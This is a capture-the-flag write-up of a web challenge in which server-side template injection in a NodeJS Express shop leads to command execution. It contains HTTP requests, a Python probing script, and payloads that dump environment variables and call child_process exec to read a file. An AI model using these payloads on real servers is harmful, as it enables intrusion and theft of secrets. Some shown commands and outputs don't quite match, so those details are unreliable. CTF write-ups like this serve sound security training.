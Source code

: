 # Black Market

## Description
A group of hackers sell illegal services on the deep web. This site has already caused a lot of damage, it must be stopped!

Find a way to take control of the web server!

URL : http://chall2.heroctf.fr:3050

Format : Hero{}

Author : Worty

## Solution

We've given a url `http://chall2.heroctf.fr:3050`. 

![](assets/web.png)

`Basket` feature shows `403`.

![](assets/basket.png)

We can buy stuff navigating to `Our services` 

![](assets/buy.png)

If we buy any item and go back to `basket` we see it shows price and details. 

![](assets/basket1.png)

We see that it shows price and number of services purchased. It also generates new bitcoin address on every refresh. The `Buy` request look like below. 

```html
POST /buy HTTP/1.1
Host: chall2.heroctf.fr:3050
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 29
Origin: http://chall2.heroctf.fr:3050
DNT: 1
Connection: close
Referer: http://chall2.heroctf.fr:3050/services/malware

id=2&type=malware&price=0.053
```

Trying SSTI attempt succeeded with `{7*7}` input. 

```html
POST /buy HTTP/1.1
Host: chall2.heroctf.fr:3050
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 27
Origin: http://chall2.heroctf.fr:3050
DNT: 1
Connection: close
Referer: http://chall2.heroctf.fr:3050/services/ddos
Cookie: basket=eyJwdXJjaGFzZXMiOnsiMCI6eyJ0eXBlIjoibWFsd2FyZSIsImlkIjoyLCJwcmljZSI6IjAuMDUzIn19fQ%3D%3D

id=1&type=ddos&price={7*7}
```

![](assets/ssti.png)

Looking at the response headers we see that the server is hosted using NodeJS Express framework. 

```html
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: basket=eyJwdXJjaGFzZXMiOnsiMCI6eyJ0eXBlIjoibWFsd2FyZSIsImlkIjoyLCJwcmljZSI6IjAuMDUzIn19fQ%3D%3D; Max-Age=900; Path=/; Expires=Mon, 26 Apr 2021 05:23:06 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 17
ETag: W/"11-KLSLPG1b7/ut5NWgA8Up/1GscNo"
Date: Mon, 26 Apr 2021 05:08:06 GMT
Connection: close

{"ok":"Success."}
```

We can try payloads related to either Jade or Handlerbars template engines. I wrote a simple python script to explore the injection. 

```python
import re
import sys
import requests

r = requests.post('http://chall2.heroctf.fr:3050/buy', data={'id':'1',"type":'malware',"price":sys.argv[1]})
c = r.headers['Set-Cookie'].split('=')[1].split(';')[0]
r = requests.get('http://chall2.heroctf.fr:3050/basket', cookies={'basket':c})
print(re.findall(r'Total:.*',r.text)[0])
```

Running this script with an argument `{{this}}` gives me `[object object]` output. 

```bash
python3 market.py 

Total: [object Object]<br/>
```

This confirms that the application is using Handlebars template engine. We can read more from [this](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) blogpost. `env` can be accessed using `global.process.env` and the JavaScript object to string conversion can be done using `JSON.stringify` method. 

```bash
python3 market.py '{{JSON.stringify(process.env)}}'

Total: {&#34;NODE_VERSION&#34;:&#34;14.16.1&#34;,&#34;HOSTNAME&#34;:&#34;ca7ae5cfca55&#34;,&#34;YARN_VERSION&#34;:&#34;1.22.5&#34;,&#34;HOME&#34;:&#34;/root&#34;,&#34;PATH&#34;:&#34;/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#34;,&#34;PWD&#34;:&#34;/usr/src/app&#34;}<br/>
```

Output is gibberish :P but we can read stuff. Flag can be printed using below payload. 

```bash
python3 market.py '{{JSON.stringify(process.mainModule.constructor._load("child_process").exec("cat flag.txt"))}}'

Total: &#34;Hero{g3t_0n_my_l3v4l_4nd_fl3x}\n&#34;<br/>
```

